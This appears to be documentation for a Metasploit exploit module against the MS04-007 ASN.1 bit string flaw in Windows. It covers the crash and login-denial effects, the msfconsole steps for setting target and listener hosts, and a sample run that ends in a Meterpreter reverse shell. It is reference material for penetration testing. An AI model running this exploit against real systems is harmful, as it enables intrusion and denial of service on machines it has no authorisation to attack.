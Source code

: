 ## Vulnerable Application

This is an exploit for a previously undisclosed vulnerability in the bit string decoding code in the Microsoft ASN.1 library. This vulnerability is not related to the bit string vulnerability described in eEye advisory AD20040210-2. Both vulnerabilities were fixed in the MS04-007 patch.

You are only allowed one attempt with this vulnerability. If the payload fails to execute, the LSASS system service will crash and the target system will automatically reboot itself in 60 seconds. If the payload succeeds, the system will no longer be able to process authentication requests, denying all attempts to login through SMB or at the console. A reboot is required to restore proper functioning of an exploited system.

This exploit has been successfully tested with the win32/[all]/reverse_tcp payloads, however a few problems were encountered when using the equivalent bind payloads. Your mileage may vary.

## Verification Steps

  1. Start msfconsole
  2. Do: `use modules/exploits/windows/smb/ms04_007_killbill`
  3. Do: `set RHOSTS [IP]`
  4. Do: `set LHOST [IP]`
  5. Do: `set LPORT [IP]`
  6. Do: `run`

## Scenarios

### A run on Windows 2000 (Build 2195, SP4) and Kali Linux 2019.3

  ```      
  msf > use modules/exploits/windows/smb/ms04_007_killbill
  msf exploit(windows/smb/ms04_007_killbill) > set RHOSTS 192.168.1.2
    RHOSTS => 192.168.1.2
  msf exploit(windows/smb/ms04_007_killbill) > run
    [*] Started reverse TCP handler on 192.168.1.3:4444
    [-] 192.168.1.2:445 - Error: The server responded with error: STATUS_ACCESS_VIOLATION (Command=115 WordCount=0)
    [*] Sending stage (180291 bytes) to 192.168.1.2
    [*] Meterpreter session 1 opened (192.168.1.3:4444 -> 192.168.1.2:1050) at 2019-11-27 19:08:46 -0700
  ```
